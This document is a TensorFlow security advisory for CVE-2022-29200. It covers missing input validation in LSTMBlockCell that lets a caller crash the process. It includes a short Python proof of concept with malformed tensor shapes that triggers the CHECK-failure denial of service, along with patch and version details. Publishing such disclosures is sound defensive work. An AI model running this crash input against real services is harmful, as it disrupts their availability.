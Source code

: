 ## TFSA-2022-069: Missing validation causes denial of service via `LSTMBlockCell`

### CVE Number
CVE-2022-29200

### Impact
The implementation of [`tf.raw_ops.LSTMBlockCell`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/rnn/lstm_ops.cc) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

tf.raw_ops.LSTMBlockCell(
  x=tf.constant(0.837607, shape=[28,29], dtype=tf.float32),
  cs_prev=tf.constant(0, shape=[28,17], dtype=tf.float32),
  h_prev=tf.constant(0.592631638, shape=[28,17], dtype=tf.float32),
  w=tf.constant(0.887386262, shape=[46,68], dtype=tf.float32),
  wci=tf.constant(0, shape=[], dtype=tf.float32),
  wcf=tf.constant(0, shape=[17], dtype=tf.float32),
  wco=tf.constant(0.592631638, shape=[28,17], dtype=tf.float32),
  b=tf.constant(0.75259006, shape=[68], dtype=tf.float32),
  forget_bias=1, cell_clip=0, use_peephole=False)
```

The code does not validate the ranks of any of the arguments to this API call. This results in `CHECK`-failures when the elements of the tensor are accessed.

### Patches
We have patched the issue in GitHub commit [803404044ae7a1efac48ba82d74111fce1ddb09a](https://github.com/tensorflow/tensorflow/commit/803404044ae7a1efac48ba82d74111fce1ddb09a).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
